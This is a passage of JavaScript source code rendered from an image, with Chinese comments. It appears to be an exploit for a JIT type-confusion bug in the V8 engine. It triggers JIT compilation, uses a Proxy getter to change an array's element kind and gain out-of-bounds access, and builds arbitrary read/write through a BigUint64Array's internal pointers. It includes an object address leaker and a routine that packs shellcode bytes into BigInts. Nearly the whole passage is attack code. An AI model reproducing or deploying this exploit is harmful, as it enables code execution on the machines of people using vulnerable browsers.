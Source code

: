 ```javascript
	for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};					// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];					// 修改此数组的length来达到oob
		uint64_arw = new BigUint64Array(2);	// 实现任意地址读写
		obj_leaker = {
            a: 0xc00c/2,
            b: oob_array,
        };									// 实现地址泄露
		//%DebugPrint(oob_array);
		//%DebugPrint(uint64_arw);
		//%DebugPrint(obj_leaker);
		//%SystemBreak();
		return Object.prototype;
	}
});
function main(p) {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT
	f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
	console.log("[+] convert confusion to oob......");

	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT

	main(empty);
	main(empty);

	main(p);
	console.log("	oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
	console.log("[+] get absolute read/write access......");
	
	// 相对于oob_array[0]的偏移
	uint64_length_offset = 16;
	uint64_externalptr_offset = 17;
	uint64_baseptr_offset = 18;
	// 用来保存这三个值
	uint64_length = f2i(oob_array[uint64_length_offset]);
	uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
	uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
	compress_head_high32_addr = uint64_externalptr_ptr & 0xffffffff00000000n;
	console.log("	uint64_length_offset: " + hex(uint64_length));
	console.log("	uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
	console.log("	uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));
	console.log("	compress_head_high32_addr: " + hex(compress_head_high32_addr));
}
// 将shellcode[]转化为BitInt
function byte_to_bigint_array(payload)
{

    let sc = []
    let tmp = 0n;
    let len_bigint = BigInt(Math.floor(payload.length/8))
    for (let i = 0n; i < len_bigint; i += 1n) {
        tmp = 0n;
        for(let j=0n; j<8n; j++){
            tmp += BigInt(payload[i*8n+j])*(0x1n<<(8n*j));
```